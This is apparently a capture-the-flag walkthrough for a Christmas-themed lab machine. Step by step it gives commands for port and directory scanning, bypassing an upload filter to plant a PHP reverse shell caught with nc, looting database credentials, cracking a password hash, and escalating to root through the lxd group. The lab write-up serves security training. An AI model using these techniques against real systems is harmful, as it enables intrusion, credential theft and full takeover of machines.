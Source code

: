 # The Trial Before Christmas

- Scan the machine. What ports are open?

	- `scilla port -target <TARGET_IP>`, [scilla here](https://github.com/edoardottt/scilla)
	- `80, 65000`

- What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

	- `http://<TARGET_IP>:65000`
	- `Light Cycle`

- What is the name of the hidden php page?

	- `gobuster dir -u http://<TARGET_IP>:65000 -x .php -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `uploads.php`

- What is the name of the hidden directory where file uploads are saved?

	- `scilla dir -target http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `grid`

- Bypass the filters. Upload and execute a reverse shell.

	  no answer needed

	- Navigate to `http://<TARGET_IP>:65000/uploads.php`
	- Download [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
	- Change the ip from the default to yours ip.
	- Upload the file.
	- Damn. Invalid file.
	- Let's look to the validation.
	- Found `assets/js/filter.js`.
	~~~
	const filter = file => {
		if(["image/png", "image/jpeg", "image/jpg"].indexOf(file.type) < 0){
			return false;
		} else if (["png", "jpeg", "jpg"].indexOf(file.name.split(".").pop()) < 0){
			return false;
		}

		//Let's be honest -- these things are dangerous. May as well always return false Â¯\_(ãƒ„)_/Â¯
		return false;

	}
	~~~
	- This instead in `upload.js`
	~~~
	const upload = () => {
	let file = uploadInput.files[0];
	if(typeof filter === "function"){
		if(!filter(file)){
			changeMsg("Invalid File Type");
			return;
		}
	}
	~~~
	- Mhhh...
	- And here we are: `accept=".png,.jpg,.jpeg"`
	- Rename that file to `rshell.jpg.php`
	- We have to avoid the download/usage of `filter.js`.
	- We can block it using the Developers Tools (F12) or using Burp.
	- *tips* If you are having trouble, clear all the cache/data in browser.
	- Move to `http://<TARGET_IP>:65000/grid/`
	- On your machine `nc -lnvp 1234`
	- Click on the uploaded file.

- What is the value of the web.txt flag?

	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- `cat /var/www/web.txt`
	- `THM{**************}`

- Upgrade and stabilize your shell.

	  no answer needed
	
	- Referred to the first command of the previous task (`python3...`).

- Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password

	- `cd /var/www/TheGrid`
	- `ls -alh`
	- `cd includes`
	- `cat dbauth.php`
	- `tron:I****************`

- Access the database and discover the encrypted credentials. What is the name of the database you find these in?

	- `mysql -u tron -p`
	- Enter the password.
	- `show databases;`
	- `tron`

- Crack the password. What is it?

	- `show tables;`
	- `use users;`
	- `select * from users;`
	~~~
	+----+----------+----------------------------------+
	| id | username | password                         |
	+----+----------+----------------------------------+
	|  1 | flynn    | ed*********d19a13*********	   |
	+----+----------+----------------------------------+
	~~~
	- `hash-identifier`
	- [crackstation](https://crackstation.net/)
	- `**********`

- Use su to login to the newly discovered user by exploiting password reuse.

	  no answer needed

	- Exit from mysql client with `exit`.
	- `su flynn`
	- Enter the password

- What is the value of the user.txt flag?

	- `cd ~`
	- `ls`
	- `cat flag.txt`
	- `THM{********_****_***********}`

- Check the user's groups. Which group can be leveraged to escalate privileges?

	- `id`
	- `lxd`

- Abuse this group to escalate privileges to root.

	  no answer needed

	- Check with `lxc image list` on target machine which containers are available locally.
	~~~
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	~~~
	- `lxc init IMAGENAME CONTAINERNAME -c security.privileged=true`
	- `lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true`
	- `lxc start CONTAINERNAME`
	- `lxc exec CONTAINERNAME /bin/sh`
	- `id`	

- What is the value of the root.txt flag?

	- `cd /mnt/root/root`
	- `THM{***********}`

	~~~
	"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
	~~~


# Have a nice XMas !!!
